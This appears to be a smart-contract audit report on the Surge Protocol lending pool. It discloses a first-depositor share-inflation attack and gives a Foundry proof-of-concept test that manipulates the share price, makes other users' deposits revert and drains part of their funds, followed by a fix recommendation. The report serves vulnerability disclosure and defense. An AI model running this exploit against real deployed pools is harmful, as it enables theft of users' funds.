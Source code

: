 rvi

high

# Attacker can blocks deposits and steal users funds

## Summary
An attacker can block deposits and steal user's funds

## Vulnerability Detail
with depositing 1 wei & being the first depositor attacker can steal other user's funds by sending a large amount of tokens after depositing 1 wei directly to the pool

for example, by sending `10e18` or `10 ether` now attacker changes the share price to 10 eth per only 1 wei 

and because of this now users with deposit amounts under 10 ether will revert due to `Pool: 0 shares` require in `Pool.sol#L325`

 also if any user deposits `15 eth` they will lose 5 eth because every share is 10 eth and we cant mint a 0.5 share if it's only 1 wei 

here is a complete detailed attack scenario: (you can run it in `Pool.t.sol`)
```solidity
function testAttack0() public {
        address alice = address(0xFF);
        address attacker = address(0xAA);

        MockERC20 collateralToken = new MockERC20(0, 18); // owner is this
        MockERC20 loanToken = new MockERC20(3500, 18); // owner is this 
        Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.8e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        
        loanToken.transfer(address(alice), 1999);
        loanToken.transfer(address(attacker), 1001);

        vm.startPrank(attacker);
        { // ATTACKER ACTIONS
            loanToken.approve(address(pool), 1);
            pool.deposit(1); // first & deposited 1 wei 
            loanToken.transfer(address(pool), 1000); // transfers 1000 tokens directly to the pool
        }
        vm.stopPrank();

        vm.startPrank(alice);
        { // ALICE ACTIONS
            loanToken.approve(address(pool), 2000);
            vm.expectRevert();
            pool.deposit(1000); // REVERT -> Pool: 0 shares
            pool.deposit(1999); // SUCCESS
            assertEq(pool.balanceOf(alice), 1); // but Only 1 share
        }
        vm.stopPrank();

        vm.startPrank(attacker);
        { // ATTACKER ACTIONS 2
            assertEq(loanToken.balanceOf(attacker), 0); // balance is 0
            pool.withdraw(2**256-1);
            assertEq(loanToken.balanceOf(attacker), 1500); // balance is 1450
        }
        vm.stopPrank();


        // LOGS 
        emit log_named_uint("Attacker Shares", pool.balanceOf(attacker));
        emit log_named_uint("Attacker Tokens", loanToken.balanceOf(attacker));
        emit log_named_uint("Alices Shares", pool.balanceOf(alice));
        emit log_named_uint("Alices Tokens", loanToken.balanceOf(alice));
        emit log_named_uint("Pool Tokens", loanToken.balanceOf(address(pool)));


    }
```
“This may happen in a larger scale”

CASE 2: 

if 1 wei share = 10 eth and Alice have 1 share and wants to withdraw 9 eth

and withdrawing 9 eth will round up to 1 share Alice shares are now `0` and she lost 1 eth 

`Pool.sol#L370`
## Impact
1. share price manipulation 
2. users lose funds 
3. attacker can DOS the deposit function
4. fee calculation will be `0` mostly
## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L307-L343

## Tool used

Manual Review, forge

## Recommendation
having a `underlyingBalance` for deposited tokens will solve this problem and not using `LOAN_TOKEN.balanceOf(*address*(*this*));` when calculating share amounts 

to be clear I mean having a `uint256` variable and storing user's total deposits instead of getting contract balance every time